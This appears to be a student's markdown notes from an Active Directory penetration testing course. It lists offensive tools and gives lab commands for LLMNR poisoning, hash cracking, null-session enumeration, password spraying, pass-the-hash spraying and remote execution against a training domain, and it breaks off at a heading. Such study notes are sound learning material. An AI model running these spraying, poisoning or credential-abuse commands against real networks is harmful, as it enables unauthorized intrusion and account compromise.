

# Setting UP the stage

| Tool                                                                                                                                          | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| --------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)/[SharpView](https://github.com/dmchell/SharpView) | A PowerShell tool and a .NET port of the same used to gain situational awareness in AD. These tools can be used as replacements for various Windows `net*` commands and more. PowerView and SharpView can help us gather much of the data that BloodHound does, but it requires more work to make meaningful relationships among all of the data points. These tools are great for checking what additional access we may have with a new set of credentials, targeting specific users or computers, or finding some "quick wins" such as users that can be attacked via Kerberoasting or ASREPRoasting. |
| [BloodHound](https://github.com/BloodHoundAD/BloodHound)                                                                                      | Used to visually map out AD relationships and help plan attack paths that may otherwise go unnoticed. Uses the [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) PowerShell or C# ingestor to gather data to later be imported into the BloodHound JavaScript (Electron) application with a [Neo4j](https://neo4j.com/) database for graphical analysis of the AD environment.                                                                                                                                                                                             |
| [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)                                                               | The C# data collector to gather information from Active Directory about varying AD objects such as users, groups, computers, ACLs, GPOs, user and computer attributes, user sessions, and more. The tool produces JSON files which can then be ingested into the BloodHound GUI tool for analysis.                                                                                                                                                                                                                                                                                                       |
| [BloodHound.py](https://github.com/fox-it/BloodHound.py)                                                                                      | A Python-based BloodHound ingestor based on the [Impacket toolkit](https://github.com/CoreSecurity/impacket/). It supports most BloodHound collection methods and can be run from a non-domain joined attack host. The output can be ingested into the BloodHound GUI for analysis.                                                                                                                                                                                                                                                                                                                      |
| [Kerbrute](https://github.com/ropnop/kerbrute)                                                                                                | A tool written in Go that uses Kerberos Pre-Authentication to enumerate Active Directory accounts, perform password spraying, and brute-forcing.                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| [Impacket toolkit](https://github.com/SecureAuthCorp/impacket)                                                                                | A collection of tools written in Python for interacting with network protocols. The suite of tools contains various scripts for enumerating and attacking Active Directory.                                                                                                                                                                                                                                                                                                                                                                                                                              |
| [Responder](https://github.com/lgandx/Responder)                                                                                              | Responder is a purpose-built tool to poison LLMNR, NBT-NS, and MDNS, with many different functions.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| [Inveigh.ps1](https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1)                                                             | Similar to Responder, a PowerShell tool for performing various network spoofing and poisoning attacks.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| [C# Inveigh (InveighZero)](https://github.com/Kevin-Robertson/Inveigh/tree/master/Inveigh)                                                    | The C# version of Inveigh with a semi-interactive console for interacting with captured data such as username and password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| [rpcinfo](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/rpcinfo)                                           | The rpcinfo utility is used to query the status of an RPC program or enumerate the list of available RPC services on a remote host. The "-p" option is used to specify the target host. For example the command "rpcinfo -p 10.0.0.1" will return a list of all the RPC services available on the remote host, along with their program number, version number, and protocol. Note that this command must be run with sufficient privileges.                                                                                                                                                             |
| [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)                                                               | A part of the Samba suite on Linux distributions that can be used to perform a variety of Active Directory enumeration tasks via the remote RPC service.                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| [CrackMapExec (CME)](https://github.com/byt3bl33d3r/CrackMapExec)                                                                             | CME is an enumeration, attack, and post-exploitation toolkit which can help us greatly in enumeration and performing attacks with the data we gather. CME attempts to "live off the land" and abuse built-in AD features and protocols like SMB, WMI, WinRM, and MSSQL.                                                                                                                                                                                                                                                                                                                                  |
| [Rubeus](https://github.com/GhostPack/Rubeus)                                                                                                 | Rubeus is a C# tool built for Kerberos Abuse.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)                                              | Another Impacket module geared towards finding Service Principal names tied to normal users.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| [Hashcat](https://hashcat.net/hashcat/)                                                                                                       | A great hash cracking and password recovery tool.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| [enum4linux](https://github.com/CiscoCXSecurity/enum4linux)                                                                                   | A tool for enumerating information from Windows and Samba systems.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| [enum4linux-ng](https://github.com/cddmp/enum4linux-ng)                                                                                       | A rework of the original Enum4linux tool that works a bit differently.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| [ldapsearch](https://linux.die.net/man/1/ldapsearch)                                                                                          | Built-in interface for interacting with the LDAP protocol.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| [windapsearch](https://github.com/ropnop/windapsearch)                                                                                        | A Python script used to enumerate AD users, groups, and computers using LDAP queries. Useful for automating custom LDAP queries.                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| [DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)                                                                    | DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)                                                                                      | The toolkit includes functions written in PowerShell that leverage PowerView to audit and attack Active Directory environments that have deployed Microsoft's Local Administrator Password Solution (LAPS).                                                                                                                                                                                                                                                                                                                                                                                              |
| [smbmap](https://github.com/ShawnDEvans/smbmap)                                                                                               | SMB share enumeration across a domain.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)                                                        | Part of the Impacket toolkit, it provides us with Psexec-like functionality in the form of a semi-interactive shell.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)                                                      | Part of the Impacket toolkit, it provides the capability of command execution over WMI.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| [Snaffler](https://github.com/SnaffCon/Snaffler)                                                                                              | Useful for finding information (such as credentials) in Active Directory on computers with accessible file shares.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)                                                  | Simple SMB server execution for interaction with Windows hosts. Easy way to transfer files within a network.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| [setspn.exe](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\))           | Adds, reads, modifies and deletes the Service Principal Names (SPN) directory property for an Active Directory service account.                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| [Mimikatz](https://github.com/ParrotSec/mimikatz)                                                                                             | Performs many functions. Notably, pass-the-hash attacks, extracting plaintext passwords, and Kerberos ticket extraction from memory on a host.                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)                                              | Remotely dump SAM and LSA secrets from a host.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| [evil-winrm](https://github.com/Hackplayers/evil-winrm)                                                                                       | Provides us with an interactive shell on a host over the WinRM protocol.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)                                              | Part of the Impacket toolkit, it provides the ability to interact with MSSQL databases.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| [noPac.py](https://github.com/Ridter/noPac)                                                                                                   | Exploit combo using CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)                                                      | Part of the Impacket toolset, RPC endpoint mapper.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| [CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)                                                       | Printnightmare PoC in python.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)                                                | Part of the Impacket toolset, it performs SMB relay attacks.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| [PetitPotam.py](https://github.com/topotam/PetitPotam)                                                                                        | PoC tool for CVE-2021-36942 to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions.                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)                                                        | Tool for manipulating certificates and TGTs.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)                                                              | This tool will use an existing TGT to request a PAC for the current user using U2U.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| [adidnsdump](https://github.com/dirkjanm/adidnsdump)                                                                                          | A tool for enumerating and dumping DNS records from a domain. Similar to performing a DNS Zone transfer.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt)                                                                                        | Extracts usernames and passwords from Group Policy preferences files.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)                                                | Part of the Impacket toolkit. Used to perform the ASREPRoasting attack to list and obtain AS-REP hashes for users with the 'Do not require Kerberos preauthentication' set. These hashes are then fed into a tool such as Hashcat for attempts at offline password cracking.                                                                                                                                                                                                                                                                                                                             |
| [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py)                                                  | SID bruteforcing tool.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)                                                    | A tool for creation and customization of TGT/TGS tickets. It can be used for Golden Ticket creation, child to parent trust attacks, etc.                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)                                                | Part of the Impacket toolkit, It is a tool for automated child to parent domain privilege escalation.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| [Active Directory Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)                                               | Active Directory Explorer (AD Explorer) is an AD viewer and editor. It can be used to navigate an AD database and view object properties and attributes. It can also be used to save a snapshot of an AD database for offline analysis. When an AD snapshot is loaded, it can be explored as a live version of the database. It can also be used to compare two AD database snapshots to see changes in objects, attributes, and security permissions.                                                                                                                                                   |
| [PingCastle](https://www.pingcastle.com/documentation/)                                                                                       | Used for auditing the security level of an AD environment based on a risk assessment and maturity framework (based on [CMMI](https://en.wikipedia.org/wiki/Capability_Maturity_Model_Integration) adapted to AD security).                                                                                                                                                                                                                                                                                                                                                                               |
| [Group3r](https://github.com/Group3r/Group3r)                                                                                                 | Group3r is useful for auditing and finding security misconfigurations in AD Group Policy Objects (GPO).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| [ADRecon](https://github.com/adrecon/ADRecon)                                                                                                 | A tool used to extract various data from a target AD environment. The data can be output in Microsoft Excel format with summary views and analysis to assist with analysis and paint a picture of the environment's overall security state.                                                                                                                                                                                                                                                                                                                                                              |

# Initial Enumeration

## External Recon and Enumeration Principles


| **Resource**                     | **Examples**                                                                                                                                                                                                                                                                                                                                                                                                                             |
| -------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `ASN / IP registrars`            | [IANA](https://www.iana.org/), [arin](https://www.arin.net/) for searching the Americas, [RIPE](https://www.ripe.net/) for searching in Europe, [BGP Toolkit](https://bgp.he.net/)                                                                                                                                                                                                                                                       |
| `Domain Registrars & DNS`        | [Domaintools](https://www.domaintools.com/), [PTRArchive](http://ptrarchive.com/), [ICANN](https://lookup.icann.org/lookup), manual DNS record requests against the domain in question or against well known DNS servers, such as `8.8.8.8`.                                                                                                                                                                                             |
| `Social Media`                   | Searching Linkedin, Twitter, Facebook, your region's major social media sites, news articles, and any relevant info you can find about the organization.                                                                                                                                                                                                                                                                                 |
| `Public-Facing Company Websites` | Often, the public website for a corporation will have relevant info embedded. News articles, embedded documents, and the "About Us" and "Contact Us" pages can also be gold mines.                                                                                                                                                                                                                                                       |
| `Cloud & Dev Storage Spaces`     | [GitHub](https://github.com/), [AWS S3 buckets & Azure Blog storage containers](https://grayhatwarfare.com/), [Google searches using "Dorks"](https://www.exploit-db.com/google-hacking-database)                                                                                                                                                                                                                                        |
| `Breach Data Sources`            | [HaveIBeenPwned](https://haveibeenpwned.com/) to determine if any corporate email accounts appear in public breach data, [Dehashed](https://www.dehashed.com/) to search for corporate emails with cleartext passwords or hashes we can try to crack offline. We can then try these passwords against any exposed login portals (Citrix, RDS, OWA, 0365, VPN, VMware Horizon, custom applications, etc.) that may use AD authentication. |

### Finding Address Space

https://he.net/


### DNS

#### Viewdns.info


https://whois.domaintools.com/


### Public Data

Tools like [Trufflehog](https://github.com/trufflesecurity/truffleHog) and sites like [Greyhat Warfare](https://buckets.grayhatwarfare.com/) are fantastic resources for finding these breadcrumbs.


### Example Enumeration Process

Go to https://bgp.he.net/ and search your domain for example `inlanefreight.com` 

- IP Address: 134.209.24.248
- Mail Server: mail1.inlanefreight.com
- Nameservers: NS1.inlanefreight.com & NS2.inlanefreight.com

we didn't find any asn's 

we used `viewdns.info` and then did an reverse lookup using the ip we found above


#### Username Harvesting

We can use a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to scrape data from a company's LinkedIn page

#### Credential Hunting

[Dehashed](http://dehashed.com/) is an excellent tool for hunting for cleartext credentials and password hashes in breach data. We can search either on the site or using a script that performs queries via the API


```shell-session
sudo python3 dehashed.py -q inlanefreight.local -p
```

## Initial Enumeration of the Domain


### Identifying Hosts

```shell-session
sudo -E wireshark
```

```shell-session
sudo tcpdump -i ens224 
```


```bash
sudo responder -I ens224 -A
```

```shell-session
fping -asgq 172.16.5.0/23
```

`fping` with a few flags: `a` to show targets that are alive, `s` to print stats at the end of the scan, `g` to generate a target list from the CIDR network, and `q` to not show per-target results.


```bash
sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum
```
`Nmap Scanninng of list of Active host`

### Identifying Users

We will use Kerbrute in conjunction with the `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames)


```shell-session
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
`Enumerating Users with Kerbrute`


# Sniffing out a Foothold


## LLMNR/NBT-NS Poisoning - from Linux

a Man-in-the-Middle attack on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts.

It uses port `5355` over UDP natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port `137` over UDP.


```bash
sudo responder -I ens224 
```


```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

## LLMNR/NBT-NS Poisoning - from Windows

```powershell-session
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
```

We are goin to use `Inveigh` which is Built in c# to perform the capturing


```powershell-session
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
`Let's start Inveigh with LLMNR and NBNS spoofing`


`Inveigh Commands(Press Esc to enter the console mode)`
```
Inveigh.exe
```
`Running the tool`
```powershell-session
HELP
```
```
GET NTLMV2UNIQUE
```
`To get the Captured `
```
GET NTLMV2USERNAMES
```
`To get the list of usernames We captured`

```powershell

$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
`Above Script can be used to Diable the LLMNS and netbios So that we can protect the company`


# Sighting In, Hunting For A User

## Passowrd Spraying ooverview

Why password spraying is better than password bruteforcing

Wht it is hevilt dependent on good quality usernames

## Enumerating & Retrieving Password Policies


### Enumerating the Password Policy - from Linux - Credentialed

```shell-session
nxc smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
`Extracting the password police using an Set of creds using netexec`


### Enumerating the Password Policy - from Linux - SMB NULL Sessions

```shell-session
rpcclient -U "" -N 172.16.5.5
```
`Login using Null session Rpcclient`
```shell-session
querydominfo
```
`info regarding Domain`
```shell-session
getdompwinfo
```
 `Obtaining the Password Policy using rpcclient`


```shell-session
enum4linux -P 172.16.5.5
```
`getting Password ploicy using enum4linux`


```shell-session
enum4linux-ng -P 172.16.5.5 -oA ilfreight
```

### Enumerating Null Session - from Windows

```cmd-session
net use \\DC01\ipc$ "" /u:""
```
`stablish a null session from a windows Using Cmd`

```cmd-session
net use \\DC01\ipc$ "" /u:guest
```

### Enumerating the Password Policy - from Linux - LDAP Anonymous Bind

[LDAP anonymous binds](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled) allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy

```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
`using ldapsearch to get the password policy`

### Enumerating the Password Policy - from Windows

```cmd-session
net accounts
```
`using Net.exe to get the password policies`


```powershell-session
import-module .\PowerView.ps1
```
```powershell-session
Get-DomainPolicy
```
`Using powerView to get the Domain Policy`

## Password Spraying - Making a Target User List


### SMB NULL Session to Pull User List

```shell-session
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
`using enum4linux to get usernames`


```shell-session
rpcclient -U "" -N 172.16.5.5
```
```shell-session
enumdomusers
```
`enum usernames using rpcclient`

```shell-session
crackmapexec smb 172.16.5.5 --users
```
`nxc for user enumration`


### Gathering Users with LDAP Anonymous

```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
`Enum users using ldapsearch`


```shell-session
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
`Enum users using windapsearch`

### Enumerating Users with Kerbrute

```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```


### Credentialed Enumeration to Build our User List

```shell-session
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

# Spray Responsibly

## Internal Password Spraying - from Linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
`rpcclient Bash-one-line password spray`


```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
`Kerbrute for password Spraying`


```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
`nxc for password spraying`

```shell-session
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
`Validating the Credentials with CrackMapExec`

#### Local Administrator Password Reuse

```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
`Local Admin Spraying with CrackMapExec`


## Internal Password Spraying - from Windows


```powershell-session
Import-Module .\DomainPasswordSpray.ps1
```
```powershell-session
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

# Deeper Down the Rabbit Hole


```powershell-session
Get-MpComputerStatus
```
`Checking the Status of Defender with Get-MpComputerStatus`

What is an Applocker in windows 


```powershell-session
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```


#### PowerShell Constrained Language Mode

PowerShell [Constrained Language Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) locks down many of the features needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more. We can quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.


```powershell-session
$ExecutionContext.SessionState.LanguageMode
```
`Enumerating Language Mode`


### LAPS

The Microsoft [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement.

```powershell-session
Find-LAPSDelegatedGroups
```
`#### Using Find-LAPSDelegatedGroups`


```powershell-session
PS C:\htb> Find-AdmPwdExtendedRights

ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins   Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\Domain Admins Delegated
SQL01.INLANEFREIGHT.LOCAL   INLANEFREIGHT\LAPS Admins   Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\Domain Admins Delegated
WS01.INLANEFREIGHT.LOCAL    INLANEFREIGHT\LAPS Admins   Delegated
```
`The `Find-AdmPwdExtendedRights` checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights." Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for`


```powershell-session
Get-LAPSComputers
```
`We can use the `Get-LAPSComputers` function to search for computers that have LAPS enabled when passwords expire, and even the randomized passwords in cleartext if our user has access.`


## Credentialed Enumeration - from Linux

### Netexec

- -u Username `The user whose credentials we will use to authenticate`
- -p Password `User's password`
- Target (IP or FQDN) `Target host to enumerate` (in our case, the Domain Controller)
- --users `Specifies to enumerate Domain Users`
- --groups `Specifies to enumerate domain groups`
- --loggedon-users `Attempts to enumerate what users are logged on to a target, if any`

```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```
`nxc Domain User Enumeration`


```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```
`nxc group enumration`

```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

```shell-session
head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 
```

```shell-session
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

```shell-session
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```
` Recursive List Of All Directories SMBmap`


### rpcclient


```bash
rpcclient -U "" -N 172.16.5.5
```


built-in Administrator for a domain will have a RID [administrator] rid:[0x1f4]


```shell-session
queryuser 0x457
```

```shell-session
enumdomusers
```

### Impacket Toolkit


```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```


```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```


### windapsearch

```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
`enumerate domain admins group members`


```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```
`Finding Privilaged Users`


### bloodhound.py

```shell-session
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```
`Collecting data to feed to the bloodhound`


```shell-session
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```


## Credentialed Enumeration - from Windows

### AD Module

```powershell-session
Get-Module
```
`To see What Modules are installed and beign used`


```powershell-session
Import-Module ActiveDirectory
```
`Importing the AD module`
```powershell-session
Get-Module
```

```powershell-session
Get-ADDomain
```
`get Domain Info`


```powershell-session
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
`get the Ad users and thier properties`

```powershell-session
Get-ADTrust -Filter *
```
`To See trusts between `


```powershell-session
Get-ADGroup -Filter * | select name
```
`Getting info  of groups`


```powershell-session
Get-ADGroup -Identity "Backup Operators"
```
`getting info regarding an specific group`

```powershell-session
Get-ADGroupMember -Identity "Backup Operators"
```
`info regaridn accounts associated to the group`

### Powerview


```
Export-PowerViewCSV
```
`Append results to a CSV file`

```
ConvertTo-SID
```
`Convert a User or group name to its SID value`

```
Get-DomainSPNTicket
```
`Requests the Kerberos ticket for a specified Service Principal Name (SPN) account`

```
Get-Domain
```
`Will return the AD object for the current (or specified) domain`

```
Get-DomainController
```
`Return a list of the Domain Controllers for the specified domain`

```
Get-DomainUser
```
`Will return all users or specific user objects in AD`

```
Get-DomainComputer
```
`Will return all computers or specific computer objects in AD`

```
Get-DomainGroup
```
`Will return all groups or specific group objects in AD`

```
Get-DomainOU
```
`Search for all or specific OU objects in AD`

```
Find-InterestingDomainAcl
```
`Finds object ACLs in the domain with modification rights set to non-built in objects`

```
Get-DomainGroupMember
```
`Will return the members of a specific domain group`

```
Get-DomainFileServer
```
`Returns a list of servers likely functioning as file servers`

```
Get-DomainDFSShare
```
`Returns a list of all distributed file systems for the current (or specified) domain`

```
Get-DomainGPO
```
`Will return all GPOs or specific GPO objects in AD`

```
Get-DomainPolicy
```
`Returns the default domain policy or the domain controller policy for the current domain`

```
Get-NetLocalGroup
```
`Enumerates local groups on the local or a remote machine`

```
Get-NetLocalGroupMember
```
`Enumerates members of a specific local group`

```
Get-NetShare
```
`Returns open shares on the local (or a remote) machine`

```
Get-NetSession
```
`Will return session information for the local (or a remote) machine`

```
Test-AdminAccess
```
`Tests if the current user has administrative access to the local (or a remote) machine`

```
Find-DomainUserLocation
```
`Finds machines where specific users are logged in`

```
Find-DomainShare
```
`Finds reachable shares on domain machines`

```
Find-InterestingDomainShareFile
```
`Searches for files matching specific criteria on readable shares in the domain`

```
Find-LocalAdminAccess
```
`Find machines on the local domain where the current user has local administrator access`

```
Get-DomainTrust
```
`Returns domain trusts for the current domain or a specified domain`

```
Get-ForestTrust
```
`Returns all forest trusts for the current forest or a specified forest`

```
Get-DomainForeignUser
```
`Enumerates users who are in groups outside of the user's domain`

```
Get-DomainForeignGroupMember
```
`Enumerates groups with users outside of the group's domain and returns each foreign member`

```
Get-DomainTrustMapping
```
`Will enumerate all trusts for the current domain and any others seen.`


```powershell-session
Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
```
`Getting Info About an Specific Domain User`


```powershell-session
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```
`ecursive look at the `Domain Admins` group to list its members`


```powershell-session
Get-DomainTrustMapping
```
`Trust Enum`


```powershell-session
PS C:\htb> Test-AdminAccess -ComputerName ACADEMY-EA-MS01

ComputerName    IsAdmin
------------    -------
ACADEMY-EA-MS01    True 
```
`We can use the Test-AdminAccess function to test for local admin access on either the current machine or a remote one.`


```powershell-session
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```
`#### Finding Users With SPN Set Can be Vuln to Kerberosting`


The BC-SECURITY version of [PowerView](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1) has some new functions such as `Get-NetGmsa`,


### SharpView

same fuctions of powerview can be used with sharpview

```powershell-session
.\SharpView.exe Get-DomainUser -Help
```


```powershell-session
.\SharpView.exe Get-DomainUser -Identity forend
```
`Info regaridng an specific Domain User`


### Shares

#### Snaffler

